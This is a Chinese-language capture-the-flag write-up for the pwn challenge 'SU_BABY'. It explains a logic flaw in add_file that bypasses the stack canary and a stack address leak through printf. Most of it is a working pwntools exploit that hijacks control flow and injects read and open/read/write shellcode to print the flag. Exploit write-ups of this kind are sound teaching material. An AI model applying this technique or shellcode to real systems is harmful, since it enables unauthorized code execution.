

# SU_BABY 

该题的主要漏洞是在`add_file`中存在的逻辑漏洞，而且是无法直接看出来的需要在`gdb`中调试中得到， 填满第一个栈后与后一个栈里面的内容连接在一起经过`strlen`长度判断为14，那么下次就是x+14的位置 读入（x为当前读入位置），合理的控制的话可以直接绕过`canary`保护 


泄露栈地址，利用`printf`不输入回车会导致后面的内容一起被打印出来，然后将栈地址 利用`add_sigID`读入，找到栈地址并读入，然后利用`display_sigdb`打印出来，这里`display_sigdb`不能直 接调用，但因为`query_infiles`没有`break`，可通过执行`query_infiles`进行调用 


然后就是进入`attack`进行构造`read`和`orw`即可 



```python
from tools import *

p = process("./ASU1")
# p = remote("1.95.76.73", 10001)
context(log_level='debug', os='linux', arch='amd64')

def add_id(id, name, ct):
    p.sendlineafter("操作:", str(1))
    p.sendlineafter("ID:", id)
    p.sendlineafter("名称:", name)
    p.sendafter("征码值:", ct)

def add_file(ct):
    p.sendlineafter("文件名称", b'a')
    p.sendlineafter("请输入文件内容", ct)

debug(p, 0x4014FB)
attack = 0x000400F56

add_id(b'22', b'xx', b'aa' + b'a'*0x26 + b'cc')
p.sendlineafter("操作:", str(5))
p.sendlineafter("感染文件:", b'a')

stack = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
log_addr("stack")
stack_addr = stack - 0x1ed50

p.sendlineafter("操作:", str(8))
p.sendlineafter("文件数据:", str(14))

# debug(p, 0x4026ff)
add_file(b'a'*4 + b'\x00')
add_file(b'a'*6 + b'\x00')
add_file(b'a'*6 + b'\x00')
add_file(b'a'*7)
add_file(b'b')
add_file(b'c'*6 + b'\x00')
add_file(p64(attack))

log_addr("stack")
log_addr("stack_addr")

target1 = 0x14068 + stack_addr - 0x590
shellcode = asm(f'''
    xor edi, edi
    xchg rsi, rdx
    add rsi, 0xb
    syscall
''')
payload = shellcode

p.sendafter("nity", payload)
log_addr('target1')

# debug(p, 0x400f3d)
p.sendafter("do?", p64(target1))
sleep(0.1)

shellcode = asm("""
    xor rsi, rsi
    push 0x67616c66
    mov rdi, rsp
    push 2
    pop rax
    syscall
    mov rsi, rdi
    mov edi, 3
    mov edx, 0x50
    xor eax, eax
    syscall
    push 1
    pop rdi
    push rsp
    pop rsi
    push 0x50
    pop rdx
    push 1
    pop rax
    syscall
""")
payload = shellcode

p.sendline(payload)
p.interactive()
```

